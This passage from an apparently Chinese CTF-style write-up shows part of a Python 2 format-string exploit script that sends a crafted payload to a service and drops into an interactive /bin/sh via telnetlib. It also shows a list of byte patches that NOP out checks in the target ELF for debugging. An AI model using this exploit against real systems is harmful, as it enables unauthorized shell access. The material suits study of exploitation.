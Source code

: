 ```
index = (60 + prelen + 3) / 4
payload = fsb.payload(index, prelen)
exp = preload + payload + "\n"

print "rxp:", exp
print "rxp:", exp.encode('hex')

time.sleep(50) #for debug

expsock.write(exp)
read_data(expsock, "Coordinates: ")
expsock.write("/bin/sh;\x00\n")

sh = telnetlib.Telnet()
sh.sock = sock
sh.interact()

```

0x06 构建环境
=====

本文的GDB调试环境使用了.gdbinit和pygdb.py，扩展了raw gdb的功能。 原ELF文件前面有许多坑，为了方便测试，这里绕过了这些坑，修改如下：

```
    00000E82: 85 40
    00000E83: C0 40
    00001254: E8 90
    00001255: B4 90
    00001256: 1A 90
    00001257: 00 90
    00001258: 00 90
    00001259: E8 90
    0000125A: 5A 90
    0000125B: FC 90
    0000125C: FF 90
    0000125D: FF 90
    0000125E: 85 33
    00001335: E8 90
    00001336: 91 90
    00001337: F8 90
    00001338: FF 90
    00001339: FF 90
    0000133A: 8D 90
    0000133B: 83 90
    0000133C: CB 90
    0000133D: BB 90
    0000133E: FF 90
    0000133F: FF 90
    00001340: 89 90
    00001341: 44 90
    00001342: 24 90
    00001343: 04 90
    00001344: C7 90
    00001345: 04 90
    00001346: 24 90
    00001347: 0E 90
    00001348: 00 90
    00001349: 00 90
    0000134A: 00 90
    0000134B: E8 90
    0000134D: F5 90
    0000134E: FF 90
    0000134F: FF 90
```